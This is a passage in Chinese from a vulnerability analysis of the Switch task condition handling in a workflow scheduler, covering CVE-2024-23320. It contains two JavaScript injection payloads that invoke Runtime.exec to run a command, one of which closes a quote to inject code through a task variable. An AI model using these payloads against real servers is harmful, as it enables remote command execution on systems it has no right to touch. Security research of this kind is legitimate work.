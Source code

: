 其中存在问题的就是这个 Switch 标签，其对应的就是 SwitchTaskProcessor。  
2、创建的内容如下：

<<<<<<< HEAD
[![](assets/1710900975-22eb14d177feba5a339ebe8869563f82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301115706-c4f6fce6-d77f-1.png)

在`条件`中输入 Payload：

```plain
var a = mainOutput(); function mainOutput() { var x=java.lang.Runtime.getRuntime().exec("touch /tmp/rce")};
```

3、创建成功之后运行即可，会发现命令执行成功，在 /tmp 临时目录下生成文件：

## CVE-2024-23320

现在再来看看 3.1.9 版本，直接执行会抛出异常，但可以通过其他方式来执行任意的 JS 代码。前面说到过，generateContentWithTaskParams 方法会将类似 ${a} 这种形式的字符串替换调，即在全局或者传入的参数中寻在 a 变量对应的值，然后将 ${a} 替换成 "a 对应的值"。

所以这里只需要在传入的变量中将变量 a 指定成 js 代码即可，Payload 如下：

```plain
";var a = mainOutput(); function mainOutput() { var x=java.lang.Runtime.getRuntime().exec("touch /tmp/rce")};//
```

这里闭合一下 " 然后拼接同样可以达到命令执行的目的：
